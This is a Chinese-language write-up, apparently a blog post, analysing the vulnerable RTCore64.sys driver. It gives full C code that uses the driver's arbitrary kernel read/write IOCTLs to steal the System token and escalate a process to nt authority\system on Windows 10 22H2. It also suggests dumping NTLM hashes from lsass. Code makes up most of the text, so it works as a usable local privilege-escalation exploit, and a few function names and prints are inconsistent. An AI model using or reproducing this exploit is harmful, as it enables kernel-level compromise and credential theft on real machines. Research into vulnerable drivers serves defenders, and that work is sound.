








# RTCore64.sys

首发分析在 https://xz.aliyun.com/news/90700 。

在此驱动在`0x80002048`和`0x8000204C`IOCTL控制码中，可以实现任意内核地址数据的读取和写入。

`0x80002048`对应了任意内核地址内容读取的控制码。SystemBuffer需要输入一个大小为`0x30`的结构体。



经过逆向不难得出结构体如下：

```C
typedef struct _RTCore64_Struct {
	BYTE Unknown[8];        // 0x0
	ULONG64 StartAddress;   // 0x8
	BYTE Unknown2[4];       // 0x10
	ULONG Offset;           // 0x14
	ULONG SizeType;         // 0x18
	ULONG Output;           // 0x1C
	BYTE Unknown3[16];      // 0x20
} RTCore64_Struct, *PRTCore64_Struct;  // Size: 0x30
```

- StartAddress：需要读取或写入的内核地址起始
- offset：从StartAddress开始的偏移
- SizeType：读取或写入的大小类型（BYTE、WORD、DWORD）
- Output：读取或写入的数据

所以根据这个结构体，可以写出读取任意内核地址大小为Byte、WORD、DWORD、QWORD数据的代码：

```C
BOOL BasicRead(ULONG64 StartAddress, ULONG SizeType, PULONG Output) {
	RTCore64_Struct rtcore64;
	ZeroMemory(&rtcore64, sizeof(RTCore64_Struct));
	rtcore64.StartAddress = StartAddress;
	rtcore64.SizeType = SizeType;
	// rtcore64.Output = Output;

	HANDLE hDevice = CreateFileA("\\\\.\\RTCore64", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hDevice == INVALID_HANDLE_VALUE) {
		printf("CreateFileA failed with error:%lu\n", GetLastError());
		return FALSE;
	}

	DWORD bytesReturned;

	BOOL bRet = DeviceIoControl(
		hDevice,
		0x80002048,
		&rtcore64,
		sizeof(RTCore64_Struct),
		&rtcore64,
		sizeof(RTCore64_Struct),
		&bytesReturned,
		NULL
	);
	if (!bRet) {
		printf("DeviceIoControl failed with error:%lu\n", GetLastError());
		return FALSE;
	}

	*Output = rtcore64.Output;
	CloseHandle(hDevice);
	return TRUE;

}

BOOL ReadKernelBYTE(ULONG64 StartAddress, PBYTE Output) {
	ULONG value = 0;
	if (!BasicRead(StartAddress, 1, &value)) {
		return FALSE;
	}
	// 只保留低 8 位
	*Output = (BYTE)(value & 0xFF);
	return TRUE;
}

BOOL ReadKernelWORD(ULONG64 StartAddress, PWORD Output) {
	ULONG value = 0;
	if (!BasicRead(StartAddress, 2, &value)) {
		return FALSE;
	}
	// 只保留低 16 位
	*Output = (WORD)(value & 0xFFFF);
	return TRUE;
}

BOOL ReadKernelDWORD(ULONG64 StartAddress, PDWORD Output) {
	return BasicRead(StartAddress, 4, Output);
}

BOOL ReadKernelQWORD(ULONG64 StartAddress, PULONG64 Output) {
	ULONG low = 0;
	ULONG high = 0;
	if (!BasicRead(StartAddress, 4, &low)) {
		return FALSE;
	}
	if (!BasicRead(StartAddress + 4, 4, &high)) {
		return FALSE;
	}
	*Output = ((ULONG64)high << 32) | low;
	return TRUE;
}
```

尝试读取系统进程`EPROCESS`地址之后的第三个DOWRD类型数据。



加载驱动运行相关代码，输入内核地址读取数据。



看似很鸡肋，实则确实有点鸡肋，但可以尝试循环读取所有的内核数据，找到`lsass`相关的就可以Dump NTLM Hash了。

对于`0x8000204C`控制码，可以进行任意内核地址写入数据，配合任意内核地址数据读取可用于权限提升。


如下代码向指定内核地址写入一个大小为QWORD类型的数据。可以下面的代码在内核中进行权限提升。

```C
BOOL BasicWrite(ULONG64 StartAddress, ULONG SizeType, ULONG Output) {
	RTCore64_Struct rtcore64;
	ZeroMemory(&rtcore64, sizeof(RTCore64_Struct));
	rtcore64.StartAddress = StartAddress;
	rtcore64.SizeType = SizeType;
	rtcore64.Output = Output;

	HANDLE hDevice = CreateFileA("\\\\.\\RTCore64", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hDevice == INVALID_HANDLE_VALUE) {
		printf("CreateFileA failed with error:%lu\n", GetLastError());
		return FALSE;
	}

	DWORD bytesReturned;

	BOOL bRet = DeviceIoControl(
		hDevice,
		0x8000204C,
		&rtcore64,
		sizeof(RTCore64_Struct),
		&rtcore64,
		sizeof(RTCore64_Struct),
		&bytesReturned,
		NULL
	);
	if (!bRet) {
		printf("DeviceIoControl failed with error:%lu\n", GetLastError());
		return FALSE;
	}

	CloseHandle(hDevice);
	return TRUE;
}

BOOL WriteKernelQWORD(ULONG64 StartAddress, ULONG64 Output) {
	ULONG low = Output & 0xFFFFFFFF;
	ULONG high = (Output >> 32) & 0xFFFFFFFF;

	if (!BasicWrite(StartAddress, 4, low)) {
		return FALSE;
	}
	if (!BasicWrite(StartAddress + 4, 4, high)) {
		return FALSE;
	}

	return TRUE;
}
```

如果了解`EPROCESS`结构的话，会知道其中有个Token指针，指向一个联合体`_EX_FAST_REF`。将相关进程的Token指针指向System进程的Token对象可以实现提权。


Token指针的低四位表示引用计数，去掉低四位为真正的Token指针，指向`TOKEN`结构。其中访问令牌、特权等决定了进程的权限。

```C
//0x8 bytes (sizeof)
struct _EX_FAST_REF
{
    union
    {
        VOID* Object;                                                       //0x0
        ULONGLONG RefCnt:4;                                                 //0x0
        ULONGLONG Value;                                                    //0x0
    };
}; 
```


那么首先需要找到System进程的`EPROCESS`，还有就是自己进程的`EPROCESS`。在内核中`PsInitialSystemProcess`是一个全局指针变量，指向了系统中第一个进程对象即System进程。在用户层显然不能直接使用，可以通过带漏洞的驱动进行读取，例如前面分析的`RTCore64.sys`的任意内核地址数据读取漏洞。

首先获取内核基地址，在获取`PsInitialSystemProcess`相对内核基地址的偏移，两者相加就可以得到`PsInitialSystemProcess`指针的内核地址。

对于获取内核基地址，常见的方法是使用`EnumDeviceDrivers`函数，用于检索系统中每个设备驱动程序的加载地址。第一个参数`lpImageBase`作为返回的设备驱动程序的加载地址列表，第一个设备驱动程序即是内核基地址。


```C
ULONG64 GetKernelBase() {
	ULONG cbNeeded = 0;

	// 首次调用计算所需的缓冲区大小
	if (!EnumDeviceDrivers(NULL, 0, &cbNeeded)) {
		printf("EnumDeviceDrivers failed with error:%lu\n", GetLastError());
		return NULL;
	}

	ULONG64* lpImageBase = (ULONG64*)malloc(cbNeeded);
	if (lpImageBase == NULL) {
		printf("Memory allocation failed\n");
		return NULL;
	}

	if (!EnumDeviceDrivers(lpImageBase, cbNeeded, &cbNeeded)) {
		printf("EnumDeviceDrivers failed with error:%lu\n", GetLastError());
		return NULL;
	}

	ULONG64 kernelBase = lpImageBase[0];

	free(lpImageBase);

	return kernelBase;
}
```

获取`PsInitialSystemProcess`的偏移，可以将`C:\Windows\System32\ntoskrnl.exe`通过`LoadLibraryA`映射到用户态中，在通过`GetProcAddress`获取`PsInitialSystemProcess`的用户态地址，将此地址减去ntoskrnl的用户态基地址，即可得到此偏移，在内核态中，此偏移值一致。

```C
ULONG GetPsInitialSystemProcessOffset() {
	HMODULE hModule = LoadLibraryA("ntoskrnl.exe");
	if(!hModule) {
		printf("LoadLibraryA failed with error:%lu\n", GetLastError());
		return 0;
	}
	ULONG64 PsInitialSystemProcess = (ULONG64)GetProcAddress(hModule, "PsInitialSystemProcess");
	if(!PsInitialSystemProcess) {
		printf("GetProcAddress failed with error:%lu\n", GetLastError());
		return 0;
	}
	ULONG offset = (ULONG)(PsInitialSystemProcess - (ULONG64)hModule);
	FreeLibrary(hModule);
	return offset;
}
```

`PsInitialSystemProcess`指针在内核中的地址即为内核基地址与此偏移值相加。

```C
ULONG64 PsInitialSystemProcessAddress(ULONG64 kernelBase, ULONG offset) {
	return kernelBase + offset;
}
```

获取到`PsInitialSystemProcess`的内核地址后，可以通过RTCore64的驱动漏洞读取System进程的`EPROCESS`。

```C
ULONG64 GetSystemEprocessPtr() {
	ULONG64 kernelBase = GetKernelBase();
	if(!kernelBase) {
		return 0;
	}
	ULONG offset = GetPsInitialSystemProcessOffset();
	if(!offset) {
		return 0;
	}
	ULONG64 psInitialSystemProcessAddr = GetPsInitialSystemProcessPtr(kernelBase, offset);
	ULONG64 systemEprocess = 0;

	if(!ReadKernelQWORD(psInitialSystemProcessAddr, &systemEprocess)) {
		return 0;
	}

	return systemEprocess;
}
```

通过读取System进程的`EPROCESS`的第三个QWORD类型数据进行验证。





现在可以成功得到System进程的`EPROCESS`地址了。接下来需要获取System的Token指针，以及通过`EPROCESS`的`ActiveProcessLinks`来获取到我们进程的`EPROCESS`。 需要注意的是在不同Windows版本上，`EPROCESS`结构不尽相同。我这里的Windows版本为`Windows 10 22H2`。



字段偏移参考 [VERGILIUS](https://www.vergiliusproject.com/) 项目。





先获取System进程的Token指针：

```C
ULONG64 GetSystemTokenPtr(ULONG64 systemEprocess) {
	ULONG64 token = 0;
	// Windows 10 22H2
	// Token
	if (!ReadKernelQWORD(systemEprocess + 0x4b8, &token)) {
		return 0;
	}

	return token;
}
```

然后通过System进程`EPROCESS`的`ActiveProcessLinks`遍历到当前进程的`EPROCESS`，通过`UniqueProcessId`对比获取到当前进程的`EPROCESS`。

```C
ULONG GetUniqueProcessId(ULONG64 Eprocess) {
	ULONG UniqueProcessId = 0;

	if(!ReadKernelDWORD(Eprocess + 0x440, &UniqueProcessId)) {
		return 0;
	}

	return UniqueProcessId;
}

ULONG64 GetEprocessByPid(ULONG ProcessId) {
	ULONG64 nextEprocess = 0;
	ULONG nextProcessId = 0;
	ULONG64 Flink = 0;

	nextEprocess = GetSystemEprocessPtr();
	if(!nextEprocess) {
		return 0;
	}
	nextProcessId = GetUniqueProcessId(nextEprocess);
	if (!nextProcessId) {
		return 0;
	}

	while (nextProcessId != ProcessId) {
		if (!ReadKernelQWORD(nextEprocess + 0x448, &Flink)) {
			return 0;
		}
		
		nextEprocess = Flink - 0x448;
		nextProcessId = GetUniqueProcessId(nextEprocess);
		if(!nextProcessId) {
			return 0;
		}
	}

	return nextEprocess;
}
```

接下来使用System进程的Token覆盖找到的`EPROCESS`的Token。需要注意的是需要保留Token结构低四位的`ReferenceCount`。

```C
BOOL ReadloadToken(ULONG ProcessPid) {
	ULONG64 systemEprocess = 0;
	ULONG64 systemToken = 0;
	ULONG64 targetEprocess = 0;
	ULONG64 targetToken = 0;
	ULONG targetTokenRefCount = 0;
	ULONG64 newToken = 0;

	systemEprocess = GetSystemEprocessPtr();
	if (!systemEprocess) {
		return FALSE;
	}

	printf("[+] systemEprocess=0x%llx\n", systemEprocess);

	systemToken = GetSystemTokenPtr(systemEprocess);
	if(!systemToken) {
		return FALSE;
	}
	printf("[+] systemToken=0x%llx\n", systemToken);

	targetEprocess = GetEprocessByPid(ProcessPid);
	if (!targetEprocess) {
		return FALSE;
	}
	printf("[+] targetEprocess=0x%llx\n", systemEprocess);

	targetToken = GetSystemTokenPtr(targetEprocess);
	if (!targetToken) {
		return FALSE;
	}
	printf("[+] targetToken=0x%llx\n", targetToken);

	systemToken = systemToken & ~0xF;
	targetTokenRefCount = targetToken & 0xF;

	newToken = systemToken | targetTokenRefCount;

	printf("[+] newToken=0x%llx\n", newToken);
	if (!WriteKernelQWORD(targetEprocess + 0x4b8, newToken)) {
		return FALSE;
	}

	return TRUE;
}
```

覆盖为System指针后，启动一个cmd，此时查看权限已经为`nt authority\system`。


